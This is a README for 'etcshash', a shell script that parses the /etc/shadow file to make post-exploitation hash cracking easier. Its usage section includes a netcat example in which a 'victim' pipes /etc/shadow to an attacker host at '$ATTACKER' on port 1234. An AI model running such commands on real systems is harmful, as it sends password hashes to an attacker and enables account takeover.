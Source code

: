 # etcshash

> A shell script to parse the /etc/shadow file and automatically display the relevant information

This script aims to make post exploitation easier by parsing the `/etc/shadow` file and output the information in a concise way that makes steps like hash cracking easier

## Usage

Currently, the script only supports reading from stdin:
```sh
cat /etc/shadow | ./etcshash.sh
```
or output every field of the `/etc/shadow` file with the `-a` flag
```sh
cat /etc/shadow | ./etcshash.sh -a
```

as it reads from stdin it can also receive files sent e.g. from netcat:
```
# attacker machine:
nc -lvnp 1234 | ./etcshash.sh

# victim:
cat /etc/shadow | nc $ATTACKER 1234
```